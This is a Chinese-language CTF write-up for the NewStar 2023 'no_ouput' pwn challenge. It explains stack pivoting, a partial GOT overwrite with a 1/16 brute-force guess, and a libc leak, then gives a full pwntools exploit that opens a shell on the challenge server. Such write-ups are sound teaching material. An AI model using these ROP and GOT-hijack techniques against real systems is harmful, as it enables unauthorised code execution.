 ```yaml
---
title: newstar2023 week5 - no ouput
date: 2023/10/23 12:00:00
tags:
    - stack pivot
    - 1-digit guess
excerpt: 利用堆栈迁移和GOT劫持，从无输出程序中获取libc基址并执行system("/bin/sh")。
---
```


~~肯定是把output的t漏了~~

## 文件分析

下载`no_ouput`, NX on, PIE off, Canary off, RELRO full  
ghidra分析为64位程序

## 解题思路

没有输出函数，但是csu_init在，可以轻松控制寄存器，那么因为 read
函数离 write 函数很近，可以由此打印出read@got拿到libcBase，然后就能调
`system("/bin/sh")`

那么首先修改.bss上的read为write，栈迁移执行，然后再次栈迁移，在栈上放置
`system("/bin/sh")`  
要注意的是，由于write比read高不少，超过了0xFF，又已知ASLR不会改变末12位，
而改是一个字节一个字节改的，因此`read & 0xF000`这4位是赌的，每次有1/16的概率能中，
并不是执行脚本就能一次打下来的

## 踩过的坑

1. write函数是对系统调用的封装，因此开栈不大，可以放心迁移
2. system执行的参数在这题只能是libc里的shstr，在.bss上捏的就不行，
网上也搜不到结果，请懂的师傅发个discussion
3. read会读取字符直到换行符（前提是读取的字节不够），sleep再久也没用（recv可以打断输入，
这时可以不用换行符）
4. 网上写可以用`elf.search(str).next()`，实际上不行，库里只有__next__()魔法方法，
因此需要用next包裹，如`next(elf.search(str))`
5. 看准时间提交...虽然比赛是周日晚9点更新题目，但是结束是在早上9点...
做出来了没提交上:(

## EXPLOIT

```python
from pwn import *

def payload(lo):
    global sh
    if lo:
        sh = process('no_ouput')
        gdb.attach(sh, 'b system')
        libc = ELF('/usr/lib/libc.so.6')
    else:
        sh = remote('node4.buuoj.cn', 29390)
        libc = ELF('libc-2.31.so')
    elf = ELF('no_ouput')
    popRdi = 0x401253
    popRsiR15 = 0x401251
    readPlt = elf.plt['read']
    readGot = elf.got['read']
    readBss = 0x404050
    bssHigh = 0x404800
    leaveRet = 0x4011ea

    # payload 1, pivot stack to readBss and read in shstr, stack pivot instruction & patch from read to write
    sh.sendline(b'0'*112 + p64(readBss - 0x30) + p64(popRsiR15) + p64(bssHigh - 16) + p64(0) + p64(readPlt) +
        p64(popRsiR15) + p64(readBss + 8) + p64(0) + p64(readPlt) +
        p64(popRsiR15) + p64(readBss - 0x30) + p64(0) + p64(readPlt) + p64(leaveRet))
    print('p1 send')
    if lo & 0b10:
        sleep(5) # wait for gdb to make manual debug easier
    else:
        sleep(0.5)

    # payload 2, make "/bin/sh" on .bss
    sh.sendline(b'/bin/sh'.ljust(16, b'\0') + p64(popRdi) + p64(0) + p64(popRsiR15) + p64(bssHigh + 0x30) + p64(0) + p64(readPlt))
    print('p4 send')
    sleep(0.5)

    # payload 3, stack pivot instruction, after this procedure, rip = bssHigh
    sh.sendline(p64(leaveRet))
    print('p3 send')
    sleep(0.5)
    
    # payload 4, patch read, if 0b10 digit debug on, read real readAddr from user
    if lo & 0b10:
        patch = p16(int(input('read addr:'), 16) - 0x520 + 0x1020)
    elif lo:
        patch = p16(0x8020)
    else:
        patch = p16(0x3060)
    sh.send(p64(bssHigh - 8) + p64(popRdi) + p64(1) + p64(popRsiR15) + p64(readGot) + p64(0) + patch)
    print('p2 send')
    sleep(0.5)

    try:
        libcBase = u64(sh.recv(6) + b'\0\0') - libc.symbols['read']
        sh.recv() # skip remaining chars from write() above
        system = libcBase + libc.symbols['system']
        shstr = libcBase + next(libc.search(b'/bin/sh')) # in python 3, use next() magic func like this

        # payload 5, write systemAddr on .bss
        # sh.sendline(p64(popRdi) + p64(bssHigh - 16) + p64(system)) # shstr on .bss can't open shell!
        sh.sendline(p64(popRdi) + p64(shstr) + p64(system))
        print('p5 send')
        sh.interactive()
        sh.close()
        return 0
    except EOFError:
        # in this case, patch is incorrect, leading to SIGSEGV
        print('addr not match')
        sh.close()
        return 1

while payload(0):
    pass
```

Done.

